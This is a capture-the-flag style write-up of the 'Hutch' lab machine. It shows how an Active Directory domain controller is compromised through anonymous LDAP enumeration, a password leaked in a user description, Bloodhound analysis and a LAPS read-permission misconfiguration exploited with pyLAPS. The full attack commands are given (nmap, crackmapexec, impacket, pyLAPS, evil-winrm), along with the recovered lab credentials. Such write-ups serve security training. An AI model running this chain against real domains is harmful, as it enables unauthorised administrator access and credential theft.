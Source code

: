 ```yaml
---
description: Owning DC machine with misconfiguration in LAPS service
---
```


# Hutch

## Summary

* I got the initial foothold to the machine using the credential discovered during LDAP enumeration.&#x20;
* Found LAPS misconfiguration issue using Bloodhound, where `fmcsorley` user has the ability to read the password set by LAPS on the DC machine.&#x20;
* Used this weekness to read the administrator password in plain text, finally getting both the flags.&#x20;



## Let's unpack

### Enumeration

```bash
# NMAP
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.223.122

Nmap scan report for hutch.offsec (192.168.223.122)
Host is up (0.10s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/10.0
|   Server Date: Sun, 30 Jun 2024 14:54:04 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_  WebDAV type: Unknown
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-30 14:53:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-30T14:54:10
|_  start_date: N/A

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   116.26 ms 192.168.45.1
2   114.35 ms 192.168.45.254
3   116.32 ms 192.168.251.1
4   116.32 ms hutch.offsec (192.168.223.122)



```



Using LDAP to list all usernames and their descriptions

```bash
ldapsearch -x -H ldap://192.168.223.122 -D '' -w '' -b "DC=hutch,DC=offsec"
>
# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at user's request. Please c
 hange on next login.

# validated the credentials using CME
crackmapexec smb 192.168.223.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' --continue-on-success
```



### Initial Foothold

Since remote access was disabled for this user, this machine is not vulnerable to AD-related common vulnerabilities like AS-REP, Kerberoast, DCSync, etc. I decided to use Bloodhound-python

```bash
# Checking for AS-REP Roasting
kerbrute userenum --dc 192.168.223.122 -d hutch.offsec -o kerbrute.username.out user.txt

# same using impacket
impacket-GetNPUsers -dc-ip 192.168.223.122 -no-pass -usersfile user.txt  hutch.offsec/ 

# Trying Kerberoasting
sudo impacket-GetUserSPNs -request -dc-ip 192.168.223.122 hutch.offsec/fmcsorley

# Trying DCSync
impacket-secretsdump -just-dc-user rplacidi hutch.offsec/fmcsorley:"CrabSharkJellyfish192"@192.168.223.122

# Enumerating SMB
crackmapexec smb 192.168.223.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' -M spider_plus

# ---- NO Luck----#

```



Trying Bloodhound

```bash
bloodhound-python -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -ns 192.168.223.122 -c All

```

#### FIndings

* The user FMCSORLEY@HUTCH.OFFSEC has the ability to read the password set by Local Administrator Password Solution (LAPS) on the computer HUTCHDC.HUTCH.OFFSEC.

<figure><img src="../.gitbook/assets/Screenshot 2024-07-08 at 5.34.28 PM.png" alt=""><figcaption></figcaption></figure>

#### Read more about LAPS here:

* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)
* [https://adsecurity.org/?p=3164](https://adsecurity.org/?p=3164)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/an\_ace\_up\_the\_sleeve.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/an\_ace\_up\_the\_sleeve.pdf)

### Privilege Escalation/Lateral Movement

Reading Administrator Password using LAPS misconfiguration using [pyLAPS](https://github.com/p0dalirius/pyLAPS)

Tool Used -> [https://github.com/p0dalirius/pyLAPS](https://github.com/p0dalirius/pyLAPS)

```bash
python pyLAPS.py --action get -u 'fmcsorley' -d 'hutch.offsec' -p 'CrabSharkJellyfish192' --dc-ip 192.168.223.122
>
[+] Extracting LAPS passwords of all computers ... 
  | HUTCHDC$             : 9kv,QRf@39912a
[+] All done!

# checking if the password belonged to any user
crackmapexec smb 192.168.223.122 -u ../user.txt -p '9kv,QRf@39912a' --continue-on-success 
>
SMB 192.168.223.122 445    HUTCHDC  [+] hutch.offsec\administrator:9kv,QRf@39912a (Pwn3d!)

```

Perfect! We got the administrator user's password in plain text. We can <mark style="color:red;">winrm</mark> to the machine and read flags for lower privilege users and Administrator, i.e. `proof.txt`

```bash
evil-winrm -i 192.168.223.122 -u administrator -p '9kv,QRf@39912a'

# Boom!  got local admin access
```

